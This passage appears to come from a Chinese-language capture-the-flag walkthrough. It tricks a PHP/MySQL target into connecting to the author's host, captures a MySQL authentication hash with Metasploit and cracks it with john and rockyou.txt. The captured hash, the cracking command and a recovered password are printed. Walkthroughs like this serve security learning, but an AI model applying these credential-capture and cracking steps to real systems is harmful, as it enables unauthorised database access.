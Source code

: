 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmdEZeSEaSfemR9eMI4qHUETAvecYfcfpzLM3J6TTjaibYt6Q15mS33yw/640?wx_fmt=png)

```
https://stackoverflow.com/questions/744656/possible-pdoexception-errors-mysql-5
```

此处没用提到 1044，但是提供了一个 errors 的服务器错误列表参考链接... 进去看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm0p4XPPBGI6gzjgrsYo48IDfGUGYflzOL7vHUhKbKOTqHfeaXq3zhzA/640?wx_fmt=png)

果然这是总报错列表，1044 给出的解释是拒绝访问数据库...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmM9R7H3czIVGEzPF9yqpgKrCgYS6PPq0lYBkfMINVVggJ0YfIPia1L3A/640?wx_fmt=png)

```
https://www.php.net/manual/en/pdo.connections.php
```

根据 PDOException 报错，我找到了此篇文章，给出了一些思路...host...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmEwJ7rhCx6Inp10wqHKRseWC4lTf4AOu46aRyZVD8q4cprA0zOaxHfQ/640?wx_fmt=png)

尝试添加 host:IP 后，是可以建立联系的... 对应的是 3306 端口..mysql

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmicNHRxvjDRiaRLJ1N99Kw0Z2FF2sPfq2icAKO9QJqMfloA4niaqS4ZQotA/640?wx_fmt=png)

利用 MSF 抓取数据流量中存在的 mysql 的 hash 值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmUmy7n0uH86P9M6Sdw13iaXxxj0kYRgFCokBqIDPCia0FcekHMbpVdaAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmVfthZ8nzUUia1smWCtLCVESOHw9BqStHSWUCpMZfrniauY7M72dicYiczg/640?wx_fmt=png)

PDOException code: 1045 这是访问被拒绝的意思...

User: dbuser; Challenge: 112233445566778899aabbccddeeff1122334455; Response: 73def07da6fba5dcc1b19c918dbd998e0d1f3f9d; 获得了 mysql 中的哈希值..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmp2WrNueYic2mDNvOanLGx7I50PpQZImFMajAIP9FIjJDjw3o0uDTsww/640?wx_fmt=png)

```
dbuser:$mysqlna$112233445566778899aabbccddeeff1122334455*73def07da6fba5dcc1b19c918dbd998e0d1f3f9d
john --wordlist=~/桌面/rockyou.txt mysql_hash
```

通过 john 爆破获得了密码... 尝试 ssh 不能登陆... 继续枚举

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylm0uhmIs1FVVXniayLBiaK5ZEicvLfCAED992a8rIbvXqKgXHBTrkU4tHfw/640?wx_fmt=png)

为了能在本地抓取 mysql 的流量情况，本地开启了 MariaDB 服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOibVXNPvvBuaWJN5y4DFylmg39ra5J8UXEy842TlJHWgZLmezZK7vfATbTupeNibesR6qB8ZGYY0zg/640?wx_fmt=png)

```
mysql -u root
create database cryptor;
grant all privileges on *.* to 'dbuser'@'%' identified by 'krypt0n1te';
```
